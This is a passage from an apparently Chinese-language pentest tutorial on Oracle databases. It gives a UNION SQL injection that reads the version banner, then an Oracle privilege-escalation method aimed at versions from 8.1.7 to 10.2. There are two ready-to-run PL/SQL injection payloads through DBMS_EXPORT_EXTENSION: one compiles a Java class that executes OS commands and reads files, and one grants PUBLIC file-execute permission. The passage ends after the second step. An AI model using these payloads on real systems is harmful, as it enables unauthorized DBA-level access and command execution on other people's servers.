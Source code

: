 

```
select*from LOCATIONS WHERE LOCATION_ID=1000 union select null,null,(select banner from sys.v_$version where rownum=1),null,null,null from dual
```




 ![](https://img-blog.csdnimg.cn/20200307210951861.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



Oracle提权

--------



### Java权限执行命令



*   影响版本：Oracle 8.1.7.4、9.2.0.1-9.2.0.7、10.1.0.2-10.1.0.4、10.2.0.1-10.2.0.2、 XE(Fixed in CPU July 2006)

*   权限：普通权限用户

*   详情：这些软件包有许多易受PL/SQL注入攻击的函数。这些函数由SYS拥有，作为SYS执行并且可由PUBLIC执行。因此，如果SQL注入处于上述任何未修补的Oracle数据库版本中，那么攻击者可以调用该函数并直接执行SYS查询，从而由提权限提权至DBA权限执行命令



1：创建Java库



```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args){try{BufferedReader myReader= new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}public static String readFile(String filename){try{BufferedReader myReader= new BufferedReader(new FileReader(filename)); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'''';END;'';END;--','SYS',0,'1',0) from dual;
```




2：赋予Java权限



```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission(''''''''PUBLIC'''''''', ''''''''SYS:java.io.FilePermission'''''''',''''''''<>'''''''', ''''''''execute'''''''');end;'''';END;'';END;--','SYS',0,'1',0) from dual;
```
